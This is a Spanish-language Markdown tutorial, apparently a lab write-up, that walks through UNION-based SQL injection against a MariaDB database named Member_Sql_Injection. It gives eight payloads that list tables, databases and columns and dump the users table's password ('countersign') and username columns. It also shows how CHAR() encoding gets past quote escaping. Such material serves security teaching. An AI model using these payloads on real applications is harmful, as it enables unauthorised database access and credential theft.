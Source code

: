 ## SQL Injection Paso a Paso

### 1. Listar todas las tablas de la base de datos actual

Este comando devuelve una lista de todas las tablas en la base de datos actual a la que se ha conectado el atacante.

```
1 UNION SELECT table_name, NULL FROM information_schema.tables --
```

- ```1```: Selección de la primera columna de la consulta (en este caso, el número 1 es utilizado para igualar el número de columnas en la consulta original).
- ```UNION```: Operador SQL utilizado para combinar los resultados de múltiples consultas.
- ```SELECT``` table_name, NULL: El atacante está seleccionando el nombre de las tablas (table_name) y un valor nulo en la segunda columna. El valor nulo es necesario para igualar el número de columnas con la consulta original.
- ```FROM``` information_schema.tables: El information_schema es una base de datos especial en MariaDB que contiene información sobre las bases de datos, tablas, columnas, etc. tables es una vista que contiene los nombres de todas las tablas de la base de datos.
- ```--```: Comentario para ocultar el resto de la consulta original (opcional).

### 2. Listar la base de datos actual

Este comando muestra la base de datos actual que se está utilizando.

```
1 UNION SELECT database(), NULL --
```

- ```database()```: Función MariaDB que devuelve el nombre de la base de datos actual.
- ```NULL```: Se selecciona un valor nulo para igualar el número de columnas de la consulta original.

### 3. Listar todas las bases de datos

Este comando muestra una lista de todas las bases de datos disponibles en el servidor MariaDB.

```
1 UNION SELECT schema_name, NULL FROM information_schema.schemata --
```
- ```schema_name```: Devuelve el nombre de cada base de datos.
- ```FROM information_schema.schemata```: El information_schema.schemata es una vista que contiene información sobre todas las bases de datos en el servidor MariaDB.

## 4. Listar tablas de una base de datos específica
Este comando muestra todas las tablas en una base de datos específica, en este caso, la base de datos llamada Member_Sql_Injection.

```
1 UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema = CHAR(77, 101, 109, 98, 101, 114, 95, 83, 113, 108, 95, 73, 110, 106, 101, 99, 116, 105, 111, 110) --
```

> [!CAUTION]
> ¿Por que usso ASCII en vez de ```Member_Sql_Injection```. Si utilizas ```Member_Sql_Injection```, aparece este error: ```You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'Member_Sql_Injection\' --' at line 1```. Eso se debe a una forma común de protección contra inyecciones SQL conocida como "escapado de caracteres". En la mayoría de los sistemas de gestión de bases de datos (DBMS), se utiliza una técnica de escapado para prevenir ataques de inyección SQL, donde los caracteres especiales como las comillas simples (') o dobles (") se preceden por una barra invertida (\) para indicar que esos caracteres deben ser tratados literalmente y no como parte de una expresión SQL. Con carcteres ASCII se puede saltar esta protección.

- ```CHAR(77, 101, 109, 98, 101, 114, 95, 83, 113, 108, 95, 73, 110, 106, 101, 99, 116, 105, 111, 110)```: Esta función CHAR() convierte una secuencia de valores numéricos en caracteres ASCII. En este caso, se traduce a 'Member_Sql_Injection'.
- ```WHERE table_schema = 'Member_Sql_Injection'```: Filtra las tablas de la base de datos Member_Sql_Injection.

## 5. Listar las columnas de una tabla en la base de datos actual
Este comando muestra las columnas de una tabla en la base de datos actual.

```
1 UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = CHAR(117, 115, 101, 114, 115) --
```

- ```CHAR(117, 115, 101, 114, 115)```: Similar al ejemplo anterior, este comando convierte los valores numéricos a caracteres ASCII, lo que da como resultado 'users'. Este es el nombre de la tabla de la que se desea obtener las columnas.
- ```FROM information_schema.columns```: Esta vista contiene información sobre las columnas de las tablas.
- ```WHERE table_name = 'users'```: Filtra las columnas de la tabla users.

## 6. Listar las columnas de una tabla en una base de datos específica
Este comando muestra las columnas de una tabla de una base de datos específica. En este caso, la base de datos es Member_Sql_Injection y la tabla es users.

```
1 UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users' AND table_schema = 'Member_Sql_Injection' --
```

- ```WHERE table_name = 'users' AND table_schema = 'Member_Sql_Injection'```: Filtra las columnas de la tabla users en la base de datos Member_Sql_Injection.

## 7. Mostrar contenido de una columna de una tabla en la base de datos actual
Este comando devuelve el contenido de una columna específica, en este caso, de la tabla users en la base de datos actual.

```1 UNION SELECT countersign, NULL FROM users --```

countersign: El atacante está solicitando el contenido de la columna countersign de la tabla users.
FROM users: Especifica la tabla users de la base de datos actual.

## 8. Mostrar contenido de una columna de una tabla en una base de datos específica
Este comando muestra el contenido de la columna username de la tabla users en la base de datos Member_Sql_Injection.

```
1 UNION SELECT username, NULL FROM Member_Sql_Injection.users --
```

- ```Member_Sql_Injection.users```: Especifica la base de datos Member_Sql_Injection y la tabla users.

- ```username```: Se selecciona el contenido de la columna username.
